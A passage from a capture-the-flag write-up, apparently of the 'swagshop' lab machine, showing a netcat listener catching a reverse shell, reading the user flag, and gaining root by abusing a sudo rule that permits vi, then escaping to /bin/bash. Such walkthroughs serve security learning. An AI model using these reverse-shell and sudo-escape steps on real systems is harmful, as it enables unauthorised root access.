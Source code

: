 On the client side we need to open a listener with netcat:

    :::bash
    netcat -lvp 1234

Then we got a reverse shell!

With this reverse shell the commands are the same but faster ;).
We can easily find the user flag:

    :::text
    ls /home/
    haris
    ls /home/haris/
    user.txt
    cat /home/haris/user.txt
    a44887<redacted>

For the privilege escalation we can just spwan a vi:

    :::text
    $ sudo -l
    Matching Defaults entries for www-data on swagshop:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on swagshop:
        (root) NOPASSWD: /usr/bin/vi /var/www/html/*
    $ sudo /usr/bin/vi /var/www/html/1

We get an error about the terminal not being interactive:

    :::text
    Vim: Warning: Output is not to a terminal
    Vim: Warning: Input is not from a terminal

Then we just enter the command to get a shell from vi:

    :::text
    :! /bin/bash
    id
    uid=0(root) gid=0(root) groups=0(root)
    ls /root/
    root.txt
    cat /root/root.txt
    c2b087<redacted>


# Wrapping up

This box was really interesting. I learned a lot about magento admin panel. As
the downloader was disabled, the easiest way to execute code on the box was not
available and I had to find other ways to execute code on a magento website from
the admin panel. This might became handy someday.
The privilege escalation was quit easy as I know a lot about vi.
